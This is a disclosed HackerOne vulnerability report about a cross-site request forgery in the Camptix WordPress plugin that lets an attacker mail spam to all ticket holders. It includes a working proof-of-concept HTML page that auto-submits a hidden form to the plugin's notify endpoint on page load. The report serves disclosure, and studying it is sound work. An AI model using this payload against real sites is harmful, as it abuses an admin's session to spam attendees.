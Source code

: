 # Send emails to all users using Camptix

## Report Details
- **Report ID**: 159925
- **URL**: https://hackerone.com/reports/159925
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-17T03:57:01.296Z
- **Disclosed**: 2016-09-27T21:45:12.247Z

## Reporter
- **Username**: jshindl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: iandunn-projects

## Vulnerability Information
Ian,
This is my first stab at submitting a bug, and I'm not even sure it is one. Here's what I found.

If an admin of a site using Camptix who is logged into the admin screen visits a malicious site which has access to a valid wpnonce value could send a large volume of spam to all ticket holders.

POC: 
<body onload="document.getElementById('s').submit();">
<form method=post id=s action="http://xxx/wp-admin/edit.php?post_type=tix_ticket&page=camptix_tools&tix_summarize=1&tix_section=notify&tix_notify_attendees=1">
	<input type=hidden name="tix-notify-segment-query" value='[{"field":"ticket","op":"is not","value":"1"}]'>
	<input type=hidden name="tix-notify-segment-match" value="OR">
<input type=hidden name="tix_notify_subject" value="camptix likes viagara">
<input type=hidden name="tix_notify_body" value="send scary messages about viagra">
<input type=hidden name="tix_notify_attendees" value="1">
<input type=hidden name="tix_notify_submit " value="Send E-mails">
<input type=hidden name="_wpnonce" value="122536321b">
<input type=hidden name="_wp_http_referer" value="/wp-admin/edit.php?post_type=tix_ticket&page=camptix_tools&tix_summarize=1&tix_section=notify&tix_notify_attendees=1">
	<input type=submit >	
</form>
</body>

I'm not an expert at wpnonce values, but the documentation of Wordpress indicates that you shouldn't rely on it for security, and this article claims they can be generated easily.
https://codeseekah.com/2016/01/21/wordpress-nonces-vulnerabilities/

The POC only sends only email to each recipient, but you could adapt it to attempt to send more. Depending on how many attendees, the script could send zero or thousands of emails.

I'm eager to hear back, and I'm eager to hear how I could make this report more helpful. :)
Jason



## Attachments
No attachments
